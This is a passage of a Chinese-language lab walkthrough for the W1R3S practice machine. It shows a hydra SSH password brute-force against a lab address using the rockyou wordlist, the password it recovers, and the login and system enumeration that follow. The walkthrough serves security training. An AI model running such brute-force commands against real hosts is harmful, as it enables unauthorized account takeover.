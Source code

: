     -   尝试翻转`ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡ ....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ` 字符

        >   ​       ı don't thınk thıs ıs the way to root!
        >
        >    we have a ןot of work to do‘ stop pןayıng around˙˙˙˙

    

## 暴力破解

-   解法1:使用`hydra`来进行暴力破解
    -   尝试对22端口进行暴力破解

```shell
└─$ hydra -l w1r3s -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.129 -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-16 19:27:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://192.168.8.129:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 192.168.8.129   login: w1r3s   password: computer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-16 19:30:32

# 得到w1r3s密码：computer

```

	- 使用获得的密码进行登陆测试

```shell
└─$ ssh w1r3s@192.168.8.129                                                                                                     
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@192.168.8.129's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

641 packages can be updated.
490 updates are security updates.

New release '18.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

.....You made it huh?....
Last login: Sat May 13 20:23:02 2023 from 192.168.8.128
w1r3s@W1R3S:~$ uname -a
Linux W1R3S 4.13.0-36-generic #40~16.04.1-Ubuntu SMP Fri Feb 16 23:25:58 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
w1r3s@W1R3S:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 16.04.3 LTS
Release:        16.04
Codename:       xenial
```